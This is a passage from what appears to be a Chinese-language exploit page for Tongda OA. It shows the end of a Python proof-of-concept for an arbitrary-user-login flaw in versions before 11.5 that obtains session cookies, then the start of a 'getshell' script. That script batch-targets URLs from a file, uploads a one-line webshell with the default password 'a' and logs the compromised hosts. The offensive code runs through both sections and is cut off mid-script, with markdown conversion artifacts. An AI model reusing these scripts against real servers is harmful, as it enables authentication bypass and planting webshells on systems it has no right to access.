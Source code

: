         else:
            print('[-] Failed to get session of current URL')

    except Exception as error:
        pass

def run(self):
    self.get_tongda_cookies() 
```

if **name** == ‘**main**’:

```
# Author  : 小泫

warnings.simplefilter("ignore")
if (len(sys.argv)) &lt; 2:
    print('useage : python' +str(sys.argv[0]) + ' -h')
else:
    parser =argparse.ArgumentParser()
    parser.description ='通达OA &lt; 11.5版本 任意用户登录'
    parser.add_argument('-u',help="待检测url -&gt; example http://127.0.0.1",type=str,dest='check_url')
    args =parser.parse_args()

    aa = Tond_da_poc(args.check_url)
    aa.run() 
``` 
```

![image](img/cdf404862706f77949b0eb9b31a82bc6.png)

### getshell poc

> url.txt： 测试url，支持批量

> vuln.txt：上传成功的webshell

> 上传的默认一句话shell密码a

```
# Usage: python tongda.py
# Default webshell password:a

import requests

import threadpool

import urllib3

import json

import base64

urllib3.disable_warnings()

header = {

“User-Agent”: “Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36”,
```